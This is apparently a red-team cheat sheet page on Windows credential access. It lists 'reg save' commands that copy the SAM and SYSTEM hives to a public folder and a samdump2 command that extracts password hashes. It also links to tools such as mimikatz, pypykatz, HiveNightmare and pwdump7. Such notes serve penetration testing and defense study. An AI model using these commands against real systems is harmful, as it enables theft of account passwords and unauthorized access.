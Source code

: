 # Credential Access

The adversary is trying to steal account names and passwords.

### Dumping Hashes

List of loots to collect
- [ ] Manually

  ```
    reg save hklm\sam C:\Users\Public\sam
    reg save hklm\system C:\Users\Public\system
  ```
  Once you have retrieved the data from SAM, you can use SamDump2 tool to dump its hashes with the following command
  
  `samdump2 system sam`
  
- [ ] Mimikats
  - binaries https://github.com/ParrotSec/mimikatz
  - project https://github.com/gentilkiwi/mimikatz
  - mimikatz cheatsheet https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49
- [ ] Pypykatz
  - https://github.com/skelsec/pypykatz
- [ ] Nightmare Hive
  - Exploit allowing you to read any registry hives as non-admin.
  - https://github.com/GossiTheDog/HiveNightmare/tree/master/Release
  
 - [ ] Windows WiFi Password Extractor
  - https://github.com/hmaverickadams/Windows-WiFi-Extractor

- [ ] PwDump7
  - Only for Windows7
  - https://www.tarasco.org/security/pwdump_7/pwdump7.zip
  - 
